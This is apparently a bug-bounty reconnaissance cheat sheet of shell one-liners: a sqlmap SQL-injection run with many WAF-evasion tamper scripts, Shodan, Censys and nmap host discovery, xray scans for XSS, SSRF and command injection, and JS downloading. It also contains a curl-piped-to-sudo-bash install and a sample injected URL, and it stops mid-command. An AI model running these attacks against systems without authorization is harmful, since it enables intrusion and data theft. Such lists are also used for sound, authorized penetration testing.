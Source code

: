 ```
sqlmap -u 'http://www.site.com/search.cmd?form_state=1' --level=5 --risk=3 --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes --no-cast --no-escape --dbs --random-agent
```
## Shodan Cli
```
shodan search Ssl.cert.subject.CN:"target.com" --fields ip_str | anew ips.txt
```
### Ffuf.json to only ffuf-url.txt
```
cat ffuf.json | jq | grep "url" | sed 's/"//g' | sed 's/url://g' | sed 's/^ *//' | sed 's/,//g'
```
## Update golang
```
curl https://raw.githubusercontent.com/udhos/update-golang/master/update-golang.sh | sudo bash
```

## Censys CLI
```
censys search "target.com" --index-type hosts | jq -c '.[] | {ip: .ip}' | grep -oE '[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+'
```
## Nmap cidr to ips.txt
```
cat cidr.txt | xargs -I @ sh -c 'nmap -v -sn @ | egrep -v "host down" | grep "Nmap scan report for" | sed 's/Nmap scan report for //g' | anew nmap-ips.txt'
```
### Xray urls scan
```
for i in $(cat subs.txt); do ./xray_linux_amd64 ws --basic-crawler $i --plugins xss,sqldet,xxe,ssrf,cmd-injection,path-traversal --ho $(date +"%T").html ; done
```  
### grep only nuclei info
```
result=$(sed -n 's/^\([^ ]*\) \([^ ]*\) \([^ ]*\) \([^ ]*\).*/\1 \2 \3 \4/p' file.txt)
echo "$result"
```
``[sqli-error-based:oracle] [http] [critical] https://test.com/en/events/e5?utm_source=test'&utm_medium=FUZZ'``
### Download js files
```
## curl
mkdir -p js_files; while IFS= read -r url || [ -n "$url" ]; do filename=$(basename "$url"); echo "Downloading $filename JS..."; curl -sSL "$url" -o "downloaded_js_files/$filename"; done < "$1"; echo "Download complete."

## wget
sed -i 's/\r//' js.txt && for i in $(cat js.txt); do wget "$i"; done
```
### Filter only html/xml content-types for xss
```
cat urls.txt | grep "=" | grep "?" | uro | httpx -ct -silent -nc | grep -i -E "text/html|application/xhtml+xml|application/xml|text/xml|image/svg+xml" | cut -d '[' -f 1 | anew xml_html.txt

## using curl
while read -r url; do
  if curl -s -o /dev/null -w "%{http_code}" "$url" | grep -q 200 && \
```